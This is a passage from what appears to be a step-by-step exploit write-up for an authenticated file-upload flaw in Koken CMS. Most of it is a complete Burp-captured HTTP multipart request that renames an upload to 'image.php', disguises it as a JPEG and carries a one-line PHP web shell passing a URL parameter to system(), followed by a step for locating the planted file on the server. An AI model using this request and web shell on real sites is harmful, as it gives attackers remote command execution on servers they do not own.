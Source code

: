 ```
4. On Burp, rename your file to "image.php"


POST /koken/api.php?/content HTTP/1.1
Host: target.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://target.com/koken/admin/
x-koken-auth: cookie
Content-Type: multipart/form-data; boundary=---------------------------2391361183188899229525551
Content-Length: 1043
Connection: close
Cookie: PHPSESSID= [Cookie value here]

-----------------------------2391361183188899229525551
Content-Disposition: form-data; name="name"

image.php
-----------------------------2391361183188899229525551
Content-Disposition: form-data; name="chunk"

0
-----------------------------2391361183188899229525551
Content-Disposition: form-data; name="chunks"

1
-----------------------------2391361183188899229525551
Content-Disposition: form-data; name="upload_session_start"

1594831856
-----------------------------2391361183188899229525551
Content-Disposition: form-data; name="visibility"

public
-----------------------------2391361183188899229525551
Content-Disposition: form-data; name="license"

all
-----------------------------2391361183188899229525551
Content-Disposition: form-data; name="max_download"

none
-----------------------------2391361183188899229525551
Content-Disposition: form-data; name="file"; filename="image.php"
Content-Type: image/jpeg

<?php system($_GET['cmd']);?>

-----------------------------2391361183188899229525551--



5. On Koken CMS Library, select you file and put the mouse on "Download File" to see where your file is hosted on server.        
```
